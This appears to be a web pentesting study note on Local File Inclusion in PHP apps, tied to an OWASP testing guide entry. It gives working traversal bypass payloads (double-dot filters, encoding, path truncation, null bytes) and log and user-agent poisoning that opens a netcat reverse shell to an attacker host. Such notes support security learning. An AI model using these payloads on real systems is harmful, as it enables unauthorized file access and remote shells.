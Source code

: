 ```yaml
---
title: LFI attack - Local File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```

# LFI attack - Local File Inclusion

??? quote "OWASP"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 5. Authorization Testing > 5.1. Testing Directory Traversal File Include

	|ID|Link to Hackinglife|Link to OWASP|Description|
	|:---|:---|:---|:---|
	|5.1|[WSTG-ATHZ-01](../OWASP/WSTG-ATHZ-01.md)|[Testing Directory Traversal File Include](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include)|- Identify injection points that pertain to path traversal.  - Assess bypassing techniques and identify the extent of path traversal (dot-dot-slash attack, Local/Remote file inclusion)|


Local File Inclusion (LFI) is a type of security vulnerability that occurs when an application allows an attacker to include files on the server through the web browser. 

The most common place we usually find LFI within is templating engines, that allows dynamic retrieval of content. Also it can be found when including external files, often scripts or templates. 

LFI vulnerabilities typically occur due to poor input validation or lack of proper security mechanisms in web applications. Let's see some examples of  vulnerable code:


Impact:

- Information Disclosure: Attackers can read sensitive files, including configuration files, user data, and source code, exposing critical information. 
- Remote Code Execution: In some cases, LFI can lead to the execution of arbitrary code if an attacker can include malicious PHP or other script files. 
- Directory Traversal: LFI attacks can allow an attacker to navigate the directory structure, potentially leading to further vulnerabilities or unauthorized access.


**Directory Traversal**: Directory Traversal, also known as Path Traversal, focuses on navigating the file system's directory structure to access files or directories outside the intended path. While this can lead to LFI, the primary goal is often broader, encompassing the ability to read, modify, or delete files and directories.

## Techniques

### Non-recursive path traversal filters

One of the most basic filters against LFI is a search and replace filter, where it simply deletes substrings of (`../`) to avoid path traversals. For example:

Code: php

```php
$language = str_replace('../', '', $_GET['language']);
```

Bypass:  if we use `....//` as our payload, then the filter would remove `../` and the output string would be `../`.  For instance:

```
http://94.237.56.125:54223/index.php?language=languages/....//....//....//....//flag.txt
```


### Encoding

If the target web application did not allow `.` and `/` in our input, we can URL encode `../` into `%2e%2e%2f`, which may bypass the filter.


### Approved Paths

Some web applications may also use Regular Expressions to ensure that the file being included is under a specific path. For instance:

```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```

To bypass this, we may use path traversal and start our payload with the approved path, , and then use `../` to go back to the root directory.

### Entensions

Some web applications append an extension to our input string (e.g. `.php`), to ensure that the file we include is in the expected extension.

### Path Truncation

**This technique is obsolete with modern versions of PHP and only work with PHP versions before 5.3/5.4.**

**Case one: Getting rid of the php extension**

In earlier versions of PHP, defined strings have a maximum length of 4096 characters, likely due to the limitation of 32-bit systems. If a longer string is passed, it will simply be `truncated`, and any characters after the maximum length will be ignored. We may use this restriction to get rid of .php extensions at the end of the file. 

**Case two:** PHP also used to remove trailing slashes and single dots in path names, so if we call (/etc/passwd/.) then the /. would also be truncated, and PHP would call (/etc/passwd). PHP, and Linux systems in general, also disregard multiple slashes in the path (e.g. ////etc/passwd is the same as /etc/passwd). Similarly, a current directory shortcut (.) in the middle of the path would also be disregarded (e.g. /etc/./passwd).

If we combine both of these PHP limitations together, we can create very long strings that evaluate to a correct path. 
- Whenever we reach the 4096 character limitation, the appended extension (`.php`) would be truncated, 
- Also the when removing the trailing slashes and the single dots,  we would have a path without an appended extension.
- Finally, it is also important to note that we would also need to `start the path with a non-existing directory` for this technique to work.

Technique. For generating this string:

```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

We can automate it this way:

```shell-session
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```


### Null Bytes

PHP versions before 5.5 were vulnerable to `null byte injection`, which means that adding a null byte (`%00`) at the end of the string would terminate the string and not consider anything after it.

To exploit this vulnerability, we can end our payload with a null byte (e.g. `/etc/passwd%00`), such that the final path passed to `include()` would be (`/etc/passwd%00.php`).


## Interesting files

[Interesting Windows files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/windows/interesting-files.md)

[Interesting Linux files](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/Linux/interesting-files.md)


### /proc/self/environ 

This files contain Environment variables. One of those variables might be HTTP_USER_AGENT, which is the user agent used by the client to access the server. So by using a  proxy interceptor  we could modify that header to be, let's say:

```
<?phpinfo()>
```

![Local file inclusion](../img/lfi-1.png)


When it comes to get a shell here, we need to use PHP function passthru, which is similar to the exec command:

passthru — Execute an external program and display raw output

In this case, we would be adding in the user agent header the reverse shell:

```
<?passthru("nc -e /bin/sh <attacker IP> <attacker port>") ?> 
```

### /var/log/auth.log  or /var/log/apache2/access.log

If  we have the ability to read a log file, then we can see if we can write in them in a malicious way.

For instance, with /var/log/auth.log, we can try an ssh connection and see how these attemps are recorded on the file. Then, instead of using a real username, I can set some php code:


```
ssh "<?passthru('nc -e /bin/sh <attacker IP> <attacker port>');?>"@$ip 
```

But there might be problems with blank spaces, slashes and so on, so one thing you can do is base64 encoded your netcat command, and tell the function to decode it before executing it  

```
# base64 encode your netcat command: nc -e /bin/sh <attacker IP> <attacker port>
ssh "<?passthru(base64_decode'<base64 encoded text>');?>"@$ip 
```

Now just get a netcat listener in your kali attacker machine.


## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](../OWASP/index.md).
